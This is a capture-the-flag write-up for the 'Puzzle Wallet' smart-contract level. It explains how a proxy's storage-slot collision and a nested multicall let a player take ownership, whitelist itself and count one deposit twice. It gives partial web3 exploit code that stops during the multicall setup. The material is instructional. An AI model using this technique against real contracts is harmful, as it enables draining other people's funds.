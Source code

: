 ## 24. Puzzle Wallet
If you understand delegatecall, you should be able to solve this. Essentially what is happening is that the storage variable `pendingAdmin` is sharing the same storage slot with `owner` and the storage variable `admin` is sharing the same storage slot with `maxBalance`.

In order to change admin, we need to modify `maxBalance` (set it to the uint value of your address) but to modify `maxBalance`, we need to reduce the balance of the contract to 0. The `execute` function allows you to withdraw funds from the contract. What we need to figure out is how to call `deposit` and how can we get the contract to register more than what was deposited.

`deposit` can only be called by a whitelisted address and to be whitelisted, you need to be an owner. By setting yourself as `pendingAdmin`, you will become the owner since the `pendingAdmin` and `owner` storage slot is shared. Once you become the owner, you can whitelist yourself and call the `deposit` function.

In order to get the smart contract to register two deposits when only 1 was made, we need to take advantage of calling `multicall` within `multicall`. The reason why this works is because the `multicall` function checks for `deposit`'s function signature so by calling `deposit` within `multicall`, you are able to bypass the `require(!depositCalled, "Deposit can only be called once");` check.

Not to worry if you don't fully understand, the code will explain everything

```
// Setting pending admin / owner
pnaData = web3.eth.abi.encodeFunctionCall({
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_newAdmin'
    }]
}, [player]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: pnaData
})

// check that you are now the owner
// await contract.owner()

// Whitelist yourself
wlData = web3.eth.abi.encodeFunctionCall({
    name: 'addToWhitelist',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'addr'
    }]
}, [player]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: wlData
})

// setting up multicall within multicall
depositData = web3.eth.abi.encodeFunctionCall({
    name: 'deposit',
    type: 'function',
    inputs: []
}, []);

```